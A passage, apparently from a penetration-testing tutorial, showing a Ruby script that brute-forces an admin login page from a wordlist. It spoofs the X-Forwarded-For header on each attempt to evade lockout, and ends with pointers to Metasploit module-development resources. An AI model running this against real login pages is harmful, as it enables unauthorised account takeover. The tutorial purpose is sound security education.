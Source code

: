 ```ruby
def auth_ok?(res)
  HTTP::Status.redirect?(res.code) &&
    %r{/admin/dashboard}.match?(res.headers['Location'])
end

def bruteforce_auth(client, host, username, wordlist)
  login_url = host + '/admin/login'
  File.foreach(wordlist).with_index do |password, i|
    password = password.chomp
    csrf_token = get_csrf(client, login_url)
    headers = {
      'X-Forwarded-For' => "#{i}-#{password[..4]}",
    }
    data = {
      'tokenCSRF' => csrf_token,
      'username' => username,
      'password' => password,
    }
    puts "[*] Trying password: #{password}"
    auth_res = client.post(login_url, data, headers)
    if auth_ok?(auth_res)
      puts "\n[+] Password found: #{password}"
      break
    end
  end
end

#begin
#  args = Docopt.docopt(doc)
#  pp args if args['--debug']
#
#  clnt = HTTPClient.new
#  bruteforce_auth(clnt, args['--root-url'], args['--user'], args['--#wordlist'])
#rescue Docopt::Exit => e
#  puts e.message
#end
```

If you would like to learn more about porting scripts into the Metasploit Framework, check out the [Metasploit: A Penetration Tester's Guide book from No Starch Press](https://nostarch.com/metasploit). Rapid7 has also created blog posts on this topic, which can be found [here](https://blog.rapid7.com/2012/07/05/part-1-metasploit-module-development-the-series/).
